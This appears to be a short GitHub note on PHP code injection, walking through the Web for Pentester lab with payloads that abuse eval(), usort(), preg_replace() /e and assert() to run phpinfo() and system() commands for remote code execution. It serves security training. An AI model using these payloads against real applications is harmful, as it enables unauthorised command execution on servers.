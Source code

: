## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster walkthrough
### example 1
` eval() - evaluates a string as PHP code ` 

**payload**- " .phpinfo(). "  <br>
**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


### example 2
` usort() - Sort an array by values using a user-defined comparison function ` <br>
**payload**-example2.php?order=id,system('whoami') <br>
**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


### example 3
` preg_replace() — Perform a regular expression search and replace `<br>
**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


### example 4
` assert() - Checks if assertion is FALSE ` <br>
**payload** - example4.php?name=hacker'.phpinfo().' <br>
**payload** - example4.php?name=hacker'.system('uname -a').'



###Noted by [konova](https://www.facebook.com/kon0va)


### Ref : 
- [LOL security](https://www.youtube.com/channel/UCQm58nOLArHOfC5dF9zCxHg)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)


